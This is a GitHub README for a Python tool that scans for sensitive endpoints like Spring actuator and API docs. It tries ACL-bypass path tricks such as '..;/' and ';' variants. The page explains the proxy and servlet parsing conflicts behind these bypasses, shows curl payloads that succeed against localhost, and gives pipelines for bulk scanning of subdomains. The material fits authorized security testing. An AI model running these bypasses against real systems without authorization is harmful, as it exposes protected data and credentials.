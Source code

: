 [中文版](https://xz.aliyun.com/t/12530)

# endpoints_explore
Endpoints Explorer is a Python script that employs multiple bypass rules to discover sensitive endpoints

## Overview
This script uses the aiohttp library to make asynchronous HTTP requests and scans the endpoints for sensitive information in a highly concurrent manner. The script attempts multiple bypass rules and returns as soon as sensitive information is found.

### Background
![app](https://github.com/wzqs/endpoints_explore/assets/71961807/a04e23a9-391b-48d7-9a6d-49fcc00a877f)

Users access through the app or browser, and the requests may pass through a CDN to a reverse proxy/load balancer. Based on the configuration, the request traffic is forwarded and routed to an API gateway, which then distributes the requests to various application services for processing.

In the backend architecture, each component completes its respective tasks by identifying the URI. If there are any parsing differences or conflicts between any of these components, it can lead to permission bypass vulnerabilities. Common situations include:

- Incompatibilities or conflicts between Tomcat/Jetty and servlet-based filter interceptors.
- Permission verification component and framework handling discrepancies leading to bypass.
- Nginx and Tomcat/Jetty conflicts.
- Improper Nginx configuration.
- Inadequate permission verification.


### Some Cases

```
# Status: 404 Not Found  OR  200
curl "https://127.0.0.1"

# Status: 404 Not Found OR 403 Forbidden
curl "https://127.0.0.1/actuator/env"

# Status: 404 Not Found
curl "https://127.0.0.1/v2/api-docs"

# Status: 404 Not Found
curl "https://127.0.0.1/nothing/actuator/env"
```

when discover the valid path /api/

```
# Status: 403 Forbidden
curl "https://127.0.0.1/api/actuator/env"

# Status: 404
curl "https://127.0.0.1/api/v2/api-docs"

# Status: 403
curl "https://127.0.0.1/api/users/query"

Response: {"message": "forbidden"}
```

to use some characters to bypass ACL

```
# Success
curl "https://127.0.0.1/api/..;/actuator;aaaa/env;.js"

# Success
curl "https://127.0.0.1/api/..;/v2/api-docs"

# Success
curl "https://127.0.0.1//api;/users/query"

Response: {"code":200,"status":0,"message":"SUCCESS","data":[{"users":"...
```


### Recommended Reading:

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://xz.aliyun.com/t/7544
- https://tttang.com/archive/1592/
- https://joychou.org/web/security-of-getRequestURI.html



## Features
- Tests with bypass rules(`/..;/`,`/;/`,`/;js/`,`/../`,`(double)urlencode` etc.)
- Performs highly concurrent scanning with asynchronous HTTP requests
- Supports checking if paths exist before scanning
- Filtered output for similar content


## Usage
First, you need to install the Python libraries that this script depends on, which can be installed with the following command:
```
pip install aiohttp asyncio colorama
```

Then, you can run this script with command-line arguments. Here is the basic usage of the script:
```
python3 endpoints_explorer.py <base_url> <normal_paths_dict> <sensitive_files_dict> [-c <concurrency>] [-v] [-e]
```
Here is a detailed explanation of the parameters:

- base_url: The base URL to scan.
- normal_paths_dict: The path to the normal paths dictionary.
- sensitive_files_dict: The path to the sensitive files dictionary.
- -c, --concurrency: The concurrency level, default is 5.
- -v, --verbose: Enable verbose output.
- -e, --check-existence: Check if the paths exist before scanning.

example:

```
$ cat sensitive_files_dict.txt

/actuator/env
/env
```
It's worth noting that the normal_paths_dict can be collected from active or passive crawling methods. This largely depends on the capabilities of your crawling tools and is not covered by the functionality of this script.

```
$ cat normal_paths_dict.txt

/api/
/manage/
```
screenshot:

![image](https://github.com/wzqs/endpoints_explore/assets/71961807/3556e555-18fd-4c5d-959c-fa7ab679f833)


### Tips
Although the script does not directly support multi-URL scanning, you can use it in conjunction with other security tools.

- Bulk scanning for sensitive information on live URLs
```
cat urls_list.txt | httpx -silent | parallel -j 50 -- python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```
- Automatically scan for sensitive information on live subdomains
```
subfinder -d example.com -silent | httpx -silent | xargs -I {} python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```

In a sense, this script serves as a permission bypass tool. 

### Notes

Please note that while the code has been thoroughly tested, there may be potential bugs and inaccuracies. The path existence checks are not foolproof and the scanning speed is influenced by factors like your own system, the target server, and network conditions. Be aware that high concurrency might impact the server's performance. Always ensure that you have proper authorization before initiating any scans to avoid legal or ethical issues. Use responsibly.

### TODO
- add more headers to requests to bypass rules
- generate the normal_paths_dict rules based on the domain

## Disclaimer
This script is intended only for lawful, authorized security testing activities and must not be used for any illegal activities. Users are responsible for all consequences of using this script.

## Thanks

- [chatgpt](https://chat.openai.com/)
- https://github.com/ldbfpiaoran/springboot-acl-bypass
- https://github.com/projectdiscovery/pdtm
